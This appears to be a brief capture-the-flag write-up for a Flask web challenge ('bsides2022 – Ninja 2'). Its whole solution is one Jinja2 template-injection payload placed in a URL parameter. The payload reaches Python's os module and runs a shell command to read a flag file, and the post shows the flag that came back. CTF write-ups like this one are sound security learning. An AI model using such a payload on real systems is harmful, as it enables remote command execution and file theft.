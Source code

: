 ```yaml
---
title: bsides2022 – Ninja 2
tags: web python flask injection
---
```


## Challenge

> Part 2 of 3: what do you know?

This challenge was on the same website as [Ninja 1]({% link blog/ctf/_posts/2022-10-17-bsides2022_Ninja_1.md %}).

## Solution

{%raw%}`[URL]/?adj1={{request.application.__globals__.__builtins__.__import__('os').popen('cat /home/appuser/flag.txt').read()}}`
{%endraw%} returned the flag: `flag{datt3bay0!}`

